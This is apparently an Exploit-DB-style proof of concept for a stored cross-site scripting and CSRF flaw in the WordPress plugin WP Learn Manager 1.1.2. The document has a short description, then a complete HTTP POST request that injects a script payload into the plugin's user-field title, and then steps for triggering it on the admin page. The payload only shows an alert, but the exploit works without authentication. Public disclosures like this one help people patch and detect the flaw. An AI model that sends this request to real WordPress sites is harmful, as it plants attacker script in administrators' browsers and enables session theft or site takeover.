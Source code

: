     # Exploit Title: WordPress Plugin WP Learn Manager 1.1.2 - Stored Cross-Site Scripting (XSS)
    # Date: July 2, 2021
    # Exploit Author: Mohammed Adam
    # Vendor Homepage: https://wplearnmanager.com/
    # Software Link: https://wordpress.org/plugins/learn-manager/
    # Version: 1.1.2
    # References link: https://wpscan.com/vulnerability/e0182508-23f4-4bdb-a1ef-1d1be38f3ad1

    *Description:*

    The plugin does not properly sanitise or validate its User Field Titles, allowing XSS payload to be used in them. Furthermore, no CSRF and capability checks were in place, allowing such attack to be performed either via CSRF or as any user (including unauthenticated)

    *Proof of Concept:*

    POST /wp-admin/admin.php?page=jslm_fieldordering&task=saveuserfield HTTP/1.1
    Accept:
    text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-GB,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 207
    Connection: close
    Upgrade-Insecure-Requests: 1

    fieldtitle=Image%3Cscript%3Ealert%28%2FXSS%2F%29%3C%2Fscript%3E&published=1&isvisitorpublished=1&required=0&search_user=1&search_visitor=1&form_request=jslearnmanager&id=28&isuserfield=0&fieldfor=3&save=Save

    Then visit /wp-admin/admin.php?page=jslm_fieldordering&ff=3 as admin to trigger the XSS. It may also be triggered elsewhere